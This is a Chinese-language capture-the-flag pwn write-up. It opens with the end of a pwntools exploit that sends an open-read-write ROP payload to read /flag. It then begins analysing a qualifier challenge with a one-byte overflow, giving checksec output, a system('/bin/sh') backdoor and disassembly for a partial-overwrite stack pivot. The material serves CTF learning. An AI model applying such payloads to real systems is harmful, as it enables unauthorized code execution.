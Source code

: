 ```python
payload3=b'/flag\x00\x00\x00'+orw_str(rdi_add,rsi_add+base_add,rdx_add+base_add,bss_add,base_add,0x404500)
payload3=payload3.ljust(0x100,b'a')+p64(bss_add)+p64(learet_add)
r.send(payload3)
r.interactive()
```

​	成功打通

#### ------------分隔线------------

​	由于感冒(感觉只要我的视野内出现过感冒患者或是刚刚康复的感冒患者,我就必定会感冒),这周除了选拔赛,就只做了这一题.所以接下来都是选拔赛题目.

#### 1:one

​	checksec,发现啥都没开.并且用ida一看还能看到真的有`system("/bin/sh");`的backdoor函数(终于不是`echo /bin/sh`的假冒伪劣产品了,令人感动)

```assembly
[*] '/home/nefunsi/\xe6\xa1\x8c\xe9\x9d\xa2/1123/one/pwn'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

```c++
int backdoor()
{
  return system("/bin/sh");
}
```

​	这固然很好,但不好的事在后头:

```c++
ssize_t vuln()
{
  char buf[160]; // [rsp+0h] [rbp-A0h] BYREF

  return read(0, buf, 0xA1uLL);
}
```

​	也就是说,我们只能覆盖返回地址的最后一个字节.这不禁让我想起了部分写入.也就是说,我们可以在不知道栈地址的情况下,让rbp在栈上移动.

​	可这又有什么用呢?

​	如果这段代码直接放在了`main`里面,那自然是卯月没有.可当我们关注到程序的执行流时...

```assembly
.text:00000000004006F8 ; __unwind {
.text:00000000004006F8                 push    rbp
.text:00000000004006F9                 mov     rbp, rsp
.text:00000000004006FC                 sub     rsp, 0A0h
.text:0000000000400703                 lea     rax, [rbp+buf]
.text:000000000040070A                 mov     edx, 0A1h       ; nbytes
.text:000000000040070F                 mov     rsi, rax        ; buf
.text:0000000000400712                 mov     edi, 0          ; fd
.text:0000000000400717                 call    _read
.text:000000000040071C                 nop
.text:000000000040071D                 leave
.text:000000000040071E                 retn
.text:000000000040071E ; } // starts at 4006F8
.text:000000000040071E vuln            endp
.text:000000000040071E
.text:000000000040071F
```